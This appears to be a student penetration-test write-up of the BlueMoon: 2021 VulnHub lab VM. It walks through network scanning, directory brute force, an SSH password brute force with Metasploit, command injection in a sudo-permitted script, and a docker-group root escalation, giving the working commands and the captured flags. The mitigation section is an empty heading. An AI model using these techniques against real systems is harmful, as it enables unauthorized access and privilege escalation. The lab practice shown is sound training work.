

# 🌙 System Hacking Assessment: BlueMoon 2021
**Module:** System Hacking (Chapter 2, Week 3)  
**Target:** BlueMoon: 2021 (VulnHub)  

---

## 🎯 Target Overview

| Parameter | Assignment Details |
| :--- | :--- |
| **Target IP** | `192.168.56.103` |
| **Network Subnet** | `192.168.56.0/24` (VirtualBox Host-Only) |
| **Assessment Type** | Boot-to-Root Penetration Test |
| **Objective** | Gain initial access, escalate to root, and capture all flags. |

---

# 🔍 Phase 1: Network Reconnaissance

The engagement began with identifying the live target on the local VirtualBox network to establish the attack surface.

**Host Discovery Scan:**
``` bash
nmap -sn 192.168.56.0/24*
```

Result:
``` bash
Starting Nmap 7.95 ( [https://nmap.org](https://nmap.org) ) 
Nmap scan report for 192.168.56.103
Host is up (0.00067s latency).
```
---

# 🔍 Phase 2: Scanning & Service Enumeration

A comprehensive TCP port scan was executed to detect running services, open ports, and service version numbers for vulnerability mapping.

**Aggressive Service Scan:**
``` bash
nmap -p- -sV -sC -Pn 192.168.56.103
```

**Discovered Services:**
| Port  | Service  | Version
 | ------| ---------|--------
 | 21    | FTP      | vsftpd 3.0.3
 | 22    | SSH      | OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
 | 80    | HTTP    | Apache httpd 2.4.38 ((Debian))

---

 # 🔍 Phase 3: Exploitation & Gaining Access

 ## Web Enumeration

 Navigating to port 80 revealed a default web page. To uncover hidden directories, a brute-force directory traversal was performed.

 ``` bash
http://192.168.56.103
```



**Directory Brute Force**
 ``` bash
gobuster dir -u [http://192.168.56.103](http://192.168.56.103) -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```
Result:
Hidden resources were discovered, including a page containing a **QR code.**

---

## QR Code Analysis
img
img

Using the credentials derived from the QR code, an authenticated FTP session was established.

## FTP Access

``` bash
ftp 192.168.56.103
```

List files:

``` bash
ls
```

Files discovered:

``` bash
information.txt
p_lists.txt
```

Download files:

``` bash
get information.txt
get p_lists.txt
```

Exit FTP:

``` bash
exit
```

---

## File Analysis

Exit FTP:

``` bash
cat information.txt
cat p_lists.txt
```
Result (information.txt):
``` bash
cat information.txt

Hello robin ...!
    
    I'm Already Told You About Your Password Weekness. I will give a Password list. you May Choose Anyone of The Password.
```

Result (p_lists.txt):
``` bash
cat p_lists.txt 
h4ck3rp455wd
4dm1n
Pr0h4ck3r
5cr1ptk1dd3
pubgpr0pl4yer
H34d5h00t3r
p@ssw0rd
@@d1dn0tf1nd
J4ck_5p4rr0w
c4pt10n_jack
D0veC4m3r0n
f1nnb4l0r
r0manr3ing5
s3thr0lin5
Demonk1ng
R4ndy0rton
Big_sh0w
j0hnc3na
5tr0ngp@ssw0rd
S4br1n4
4nnlyn
C4rp3nt3r
K0fiKing5t0n
chNAMPIN
Herr0lins
G0palT0p3r
Log3shDriv3r
k4rv3ndh4nh4ck3r
P0nmuGunth0n
Shank3rD3v
KishorMilkV4n
S4th15hR4cer
```

Findings:

``` bash
-   `information.txt` -- message for user **robin**
-   `p_lists.txt` -- password list
```

---

## SSH Brute Force
With a known username **robin** and a targeted password list (p_lists.txt), Metasploit was utilized to brute-force the SSH service.

``` bash
msfconsole
use auxiliary/scanner/ssh/ssh_login
set RHOSTS 192.168.56.103
set USERNAME robin
set PASS_FILE p_lists.txt
run
```

Cracked Credentials: **robin** : **k4rv3ndh4nh4ck3r

## Initial Foothold
Access was secured via SSH, and the first objective was completed.

``` bash
ssh robin@192.168.56.103
cat user1.txt
```

``` bash
🚩 User 1 Flag: Fl4g{u5er1r34ch3d5ucc355fully}
```

# ⬆️ Phase 4: Privilege Escalation
## Horizontal escalation (robin → jerry)
System enumeration revealed a custom executable named **fedback.sh** inside the **project** directory. Checking user privileges (**sudo -l**) confirmed that **robin** could execute this script as the user **jerry** without a password.

``` bash
sudo -u jerry ./feedback.sh
```

The scripted prompted for user input but lacked sanitization. By injecting an OS command into the prompt, a shell was spawned under the **jerry** account.

**Payload Injection:**
``` bash
Enter Your Name: alya
Enter Your Feedback: /bin/bash
```

Verify user and retrieve the second flag:
``` bash
whoami
cd /home/jerry
cat user2.txt
```
Result:
``` bash
🚩 User 2 Flag: Successfully retrieved **user2.txt** from /home/jerry.
```

## Vertical Escalation (jerry → root)
Checking the group ID assignments (id) for **jerry** revelaed membership in the **docker** group (**gid 114**). This security misconfiguration allows a user to mount the host's root filesystem into a container, effectively granting root privileges.

**Docker Breakout Payload:**
``` bash
docker images
docker run -v /:/mnt --rm -it alpine chroot /mnt sh
```

Result:
``` bash
🏆 Root Flag: Fl4g{r00t-H4ckTh3P14n3t0nc34g41n}
```

# 🛡️ Phase 5: Threat Mitigation & Defense
To secure this system against similar attack vectors, the following remediations are recommended:


# 🛠️ Tools Used

 | Tool        | Purpose
 | ------------| -----------------------
 | Nmap        | Network mapping and service version detection.
 | Gobuster    | Brute-forcing hidden directories and web assets.
 | Metasploit  | Automating the SSH dictionary attack.
 | FTP         | File retrieval
 | Docker      | Exploiting container socket permissions for root breakout.

------------------------------------------------------------------------
